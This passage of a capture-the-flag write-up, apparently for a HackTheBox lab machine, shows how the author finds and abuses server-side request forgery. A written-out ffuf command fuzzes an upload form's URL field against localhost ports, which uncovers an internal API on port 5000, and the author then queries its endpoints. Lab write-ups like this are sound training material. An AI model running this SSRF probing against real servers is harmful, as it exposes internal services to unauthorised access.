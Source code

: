 -   I create a port list to use:
    ```shell
    seq 1 65535 > Ports.txt
    ```

    -   I modify the curl command so it can be used with ffuf:
        -   adding the wordlist `-w`
        -   specifying the url `-u`
        -   adding the injection point:
            -   `http://127.0.0.1:FUZZ`
        -   Removing the newlines and making 1 line
        -   Proxying all traffic via burp
            -   `-x http://127.0.0.1:8080`
        -   Remove size of 61 `-fs 61`
            -   This can only be done once we have the initial response so we can then filter for the standard response.



```shell
ffuf -w ~/Wordlists/45.06-CustomWordlists/Ports.txt -u 'http://editorial.htb/upload-cover' -X $'POST' -H $'Host: editorial.htb' -H $'Content-Length: 315' -H $'Accept-Language: en-US,en;q=0.9' -H $'User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/130.0.6723.70 Safari/537.36' -H $'Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryAKLIgaiMMQNJmTJ6' -H $'Accept: */*' -H $'Origin: http://editorial.htb' -H $'Referer: http://editorial.htb/upload' -H $'Accept-Encoding: gzip, deflate, br' -H $'Connection: keep-alive' -d $'------WebKitFormBoundaryAKLIgaiMMQNJmTJ6\x0d\x0aContent-Disposition: form-data; name=\"bookurl\"\x0d\x0a\x0d\x0ahttp://127.0.0.1:FUZZ\x0d\x0a------WebKitFormBoundaryAKLIgaiMMQNJmTJ6\x0d\x0aContent-Disposition: form-data; name=\"bookfile\"; filename=\"\"\x0d\x0aContent-Type: application/octet-stream\x0d\x0a\x0d\x0a\x0d\x0a------WebKitFormBoundaryAKLIgaiMMQNJmTJ6--\x0d\x0a' -x http://127.0.0.1:8080 -fs 61
```

-   I have added the image of the command below as I know sometimes the formatting of my site can lead to the code boxes running off of the page. (will fix, soz bbz)
    -   {{< figure src="/ox-hugo/2024-12-21-143308_.png" >}}

-   We get a hit on port `5000`:
    -   {{< figure src="/ox-hugo/2024-12-21-143455_.png" >}}


### Abusing SSRF To Access Internal API Endpoints: {#abusing-ssrf-to-access-internal-api-endpoints}

-   I enter this IP into the url box and we can see we are given the `static/upload/GUID` response again:
    -   {{< figure src="/ox-hugo/2024-12-21-145805_.png" >}}

-   I enter the url into my browser and the file downloads. When I look at the file it looks to be API information in `json` format:
    -   {{< figure src="/ox-hugo/2024-12-21-150020_.png" >}}

-   Looking at the contents we can see it's information on an API running on the 5000 endpoint:
    -   {{< figure src="/ox-hugo/2024-12-21-150526_.png" >}}

-   I load these endpoints into burp intruder and query each endpoint
    -   {{< figure src="/ox-hugo/2024-12-21-151804_.png" >}}
    -   +Note+: I tried this but for some reason when I attempted to download the returned files it would always fail. Instead I manually queried the endpoint, quickly extracted the string and downloaded the file. There may be a time limit on the files uploaded potentially.
